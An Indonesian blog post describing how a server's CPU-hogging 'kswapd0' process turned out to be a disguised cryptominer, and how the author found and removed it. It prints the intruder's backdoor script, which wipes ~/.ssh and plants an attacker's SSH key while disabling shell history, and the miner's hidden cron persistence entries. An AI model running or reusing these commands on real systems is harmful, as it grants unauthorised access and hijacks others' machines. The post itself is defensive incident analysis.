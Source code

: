 ```yaml
---
title: How to Deal With High CPU Usage kswapd0 on Linux
lang: id-ID
description: High CPU Usage pada aplikasi kswapd0 bisa berarti SWAP atau bahkan Mining.
image: /images/covers/how-to-deal-with-kswapd0-on-linux.jpg
published: 09/30/2020, 10:55:23 AM
category: devops
author: Ryan Aunur Rassyid
tags: 
  - kswapd0
  - ubuntu
  - linux
  - debian
  - cpu
  - production
  - server
meta:
  - name: keywords
    content: kswapd0,ubuntu,linux,debian,cpu,production,server
feed:
  enable: true
---
```

# How to Deal With High CPU Usage kswapd0 on Linux

<Author name="Ryan Aunur Rassyid" />
<FeaturedImage 
  src="/images/covers/how-to-deal-with-kswapd0-on-linux.jpg"
  author="Jase Bloor"
  source="unsplash.com"
  sourceLink="https://unsplash.com/photos/By1VMCg3K4I" />

## Introduction
Beberapa waktu yang lalu penulis sempat menghandle Project yang menggunakan server fisik (bukan VPS). Server tersebut menggunakan Ubuntu 16.04 sebagai *Operating System*-nya. Namun OS yang dipakai tidak sama dengan OS yang penulis pakai setiap kali deploy VPS, padahal versi Ubuntu yang dipakai sama persis yaitu Ubuntu 16.04 tapi serasa seperti Debian. Banyak package package yang hilang atau tidak ada padahal package tersebut seharusnya ada di OS tersebut bahkan fresh install sekalipun. 

Aplikasi berjalan baik dan tanpa kendala, hanya saja berjalan agak pelan untuk ukuran server dengan prosessor 8 core tersebut. Seharusnya aplikasi berjalan lebih baik bukan?. Oke mulai mulai dari sini mulai curiga. Apakah server menjalankan aplikasi lain yang menyebabkan aplikasi lain tidak memiliki cukup resource yang dipakai atau aplikasi yang kita kerjakan memang lamban. Akhirnya investigasi dimulai.

## Table of Contents
[[toc]]

## Apa itu kswapd0?
Singkat cerita ditemukan akar masalahnya, yaitu aplikasi **kswapd0** yang berjalan menggunakan resource CPU 100% terus menerus. Ini sangat tidak wajar untuk aplikasi yang mengatur dan me-*manage* SWAP atau virtual memory pada Linux. Karena ini hal baru yang belum pernah penulis jumpai selama memakai SWAP di Linux, jadi penulis mencoba mengumpulkan informasi dari semua forum-forum apa itu *kswapd0* dan mengapa memakan resource CPU yang banyak.

Ada forum yang berpendapat bahwa kejadian ini adalah bug dari linux yang harusnya sudah di-fix di versi yang baru sedangkan ada beberapa orang berpendapat bahwa ini disebabkan oleh server yang menggunakan hardisk dari pada SSD sebagai SWAP sehingga CPU dan Hardisk dipaksa bekerja dengan semaksimal mungkin. Team memutuskan untuk upgrade versi package yang kadarluasa dengan menjalankan `apt get upgrade`. Dan bener saja banyak package yang diupgrade pada waktu itu. Namun ini tidak menuntaskan masalah, **kswapd0** tetap berjalan.

![kswapd0 terlihat berjalan di aplikasi monitoring htop](https://telegra.ph/file/2b542fc07f6a6a176c072.jpg)
*Aplikasi kswapd0 terlihat berjalan di aplikasi monitoring htop*

### What now?
Akhirnya kami putuskan untuk menghapus SWAP dari pada penggunaan CPU terus dipakai tanpa ampun. Setelah dihapus apakah masalah ini selesai? sayangnya tidak. Aplikasi tersebut masih berjalan bahkan tanpa adanya SWAP. Lalu apa sebenernya eksistensi dari aplikasi ini?. Akhirnya penulis putuskan untuk investigasi mendalam dan mencoba mengumpulkan informasi lagi di forum. Kali ini penulis mendapatkan secercah cahaya apa maksud dari semua ini. Setelah membaca log Cron Job yang mencurigakan akhirnya didapati pertanyaan yang related dengan masalah ini.

:::: preview https://askubuntu.com/questions/1161003/strange-cron-job-takes-up-100-of-cpu-ubuntu-18-lts-server

::: preview-content Strange Cron Job takes up 100% of CPU Ubuntu 18 LTS Server - Ask Ubuntu
I keep getting weir cron jobs showing up and I have no clue what they do. I typically issue kill -9  to stop them. They take up 100% of my CPU and can run for days until I check. Does anyone know w...

askubuntu.com
:::
::: preview-thumbnail https://cdn.sstatic.net/Sites/askubuntu/Img/apple-touch-icon@2.png?v=c492c9229955
:::
::::

Usut punya usut ternyata aplikasi tersebut adalah aplikasi **Crypto Mining**. Siapa sangka aplikasi ini bisa masuk pada sistem operasi linux yang baru di install. Aplikasi Crypto Mining sendiri adalah aplikasi yang menjalankan proses mining (memecahkan algoritma rumit) yang memerlukan sebuah resource khususnya CPU atau GPU. Keuntungan yang didapat dari mining adalah Cryptocurrency atau mata uang digital. Karena aplikasi ini berjalan tanpa izin dan dijalankan pada komputer atau server orang lain maka aplikasi ini termasuk tindakan yang merugikan orang lain. Aplikasi ini berjalan tanpa henti dan menggunakan semua resource CPU yang ada hingga 100% yang bisa memperpendek umur prosessor karena dipaksa melakukkan pekerjaan keras dalam waktu lama dan terus menerus.

### Menghapus aplikasi
Tidak ada faedahnya membuat aplikasi ini tetap berada di server. Alih alih membiarkan aplikasi tetap berjalan saya memilih untuk menghapus aplikasi ini. Sebelum itu saya lebih penasaran bagaimana aplikasi ini bisa masuk. Asumsi awal adalah aplikasi ini masuk dengan cara SCP atau transfer remote file melalui SSH. Kok bisa? bisa, karena di SSH folder `$HOME/.ssh/` ada file `authorized_keys` yang artinya orang bisa mengakses server kapan saja tanpa password karena Linux mempercayai sepenuhnya pelaku. Dan ini bisa terjadi karena OS yang di-install bukan dari OS resmi dari Ubuntu atau Debian dengan kata lain injected. File instalasi OS bisa saja di susupi script untuk membuat `authorized_keys` seperti berikut.

```bash
set +o history
export PATH=/home/user/.bin:$PATH
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod 700 .ssh && cd .ssh && chmod 600 authorized_keys && cd ~
```

Setelah pelaku sudah memiliki akses ke server kita melalui ssh, selanjutnya pelaku tinggal mengirim file mining tersebut ke server kita dan menjalankan nya dengan cron job. Kenapa cron job? karena disini aplikasi akan mendeteksi apakah aplikasi mining nya berjalan atau tidak. Apabila aplikasi dihentikan paksa dengan `kill -9 PID` misalnya, maka aplikasi akan kembali berjalan setelah beberapa menit. Dan jika file aplikasi di hapus maka secara otomatis aplikasi akan di sync untuk mendapatkan file crypto mining dan menjalankannya kembali. Terdengar menarik bukan.

```bash
1 1 */2 * * /home/user/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```

Dan ini adalah struktur folder dari folder aplikasi tersebut disimpan `$HOME/.configrc`. Nama folder yang cukup meyakinkan untuk tidak di cek, karena kita akan berfikir bahwa folder ini mungkin bagian dari folder `.config` yang hanya berisi config dari aplikasi-aplikasi di linux.

```
.
├── a
│   ├── a
│   ├── bash.pid
│   ├── dir.dir
│   ├── init0
│   ├── kswapd0
│   ├── run
│   ├── stop
│   └── upd
├── b
│   ├── a
│   ├── dir.dir
│   ├── run
│   ├── stop
│   └── sync
├── cron.d
└── dir2.dir
```

Setelah aplikasi di berhentikan dan dihapus dari server, penggunaan resource CPU menjadi normal kembali. Untuk meyakinkan bahwa program tersebut sudah tidak aktif kembali dan semua file dan service sudah dihapus dan berhenti, kami menunggu untuk beberapa saat. Yes, aplikasi tidak berjalan kembali dan di monitoring system juga tidak nampak keanehan kembali.

### Virus Total
Kita pastikan kembali bahwa ini adalah aplikasi Crypto Mining dengan cara upload file **kswapd0** tersebut ke website [virustotal](https://www.virustotal.com/gui/file/fd9007df08c1bd2cf47fb97443c4d7360e204f4d8fe48c5d603373b2b2975708/detection). Hasilnya dipastikan bahwa ini bukan file **kswapd0** yang asli atau bawaan Linux melainkan aplikasi Crypto Mining.

![Hasil scan pada website VirusTotal.com](https://telegra.ph/file/9c9b44a1073398b6c30a5.png)
*Hasil scan pada website [VirusTotal.com](https://www.virustotal.com/gui/file/fd9007df08c1bd2cf47fb97443c4d7360e204f4d8fe48c5d603373b2b2975708/detection)*

## Kesimpulan
Sebuah aplikasi yang menggunakan resource berlebih apalagi CPU perlu kita curigai dan usut sampai tuntas apa yang menyebabkan ia menggunakan CPU dengan tidak normal seperti itu. Dalam kasus ini aplikasi bernama **kswapd0** ini menjelma menjadi sebuah aplikasi yang cukup *make sense* untuk menggunakan resource besar tapi *behavior* dari aplikasi ini sendiri tidak seperti pada umunya. 

Dari sini kita bisa mengambil pelajaran bahwa jangan langsung percaya dengan apa yang kita lihat. Sebelum ada bukti yang kuat kita tidak bisa mengatakan bahwa aplikasi ini baik baik saya dan berjalan sebagaimana mestinya. Bisa jadi aplikasi tersebut sedang menyamar menjadi aplikasi lain.

<Disqus />

